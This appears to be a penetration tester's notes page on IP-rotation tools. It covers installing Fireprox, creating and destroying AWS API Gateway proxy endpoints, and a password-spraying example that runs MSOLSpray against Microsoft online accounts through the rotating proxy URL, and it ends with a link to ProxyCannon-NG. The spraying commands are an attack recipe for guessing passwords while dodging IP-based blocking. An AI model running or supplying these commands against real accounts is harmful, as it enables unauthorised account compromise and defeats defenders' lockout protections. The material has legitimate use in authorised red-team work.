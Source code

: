 # IP rotation Tools

## Fireprox

Note: change the region if you get blocked

### Install

```csharp
git clone https://github.com/ustayready/fireprox
cd fireprox virtualenv -p python3 . 
source bin/activate 
pip install -r requirements.txt 
```

### Usage

* Create the remote endpoint

```csharp
python fire.py --access_key <AWS_KEY> --secret_access_key <AWS_SECRET> --region <REGION> --url <TARGET SITE> --command create
```

### Destroy 

* Once finished, delete the endpoint

```csharp
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region --a
pi_id <API ID>  --command destroy
```

### Password Spraying example

* Create an endpoint using fireprox

![](../../.gitbook/assets/image%20%2881%29.png)

* Create an user list

![](../../.gitbook/assets/image%20%28295%29.png)

* Load MSOLSpray module and execute it using the userlist, a password and the proxy url :

```text
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password WrongPass123 -URL https://llm9mzll40.execute-api.eu-west-1.amazonaws.com/fireprox/
```

![](../../.gitbook/assets/image%20%28308%29.png)

* cleanup ****

```csharp
python fire.py --access_key $AWS --secret_access_key $KEY --region eu-west-1 --api_id  llm9mzll40 --command destroy
```

### resources

{% embed url="https://github.com/ustayready/fireprox" %}

## ProxyCannon-NG

{% embed url="https://github.com/proxycannon/proxycannon-ng" %}

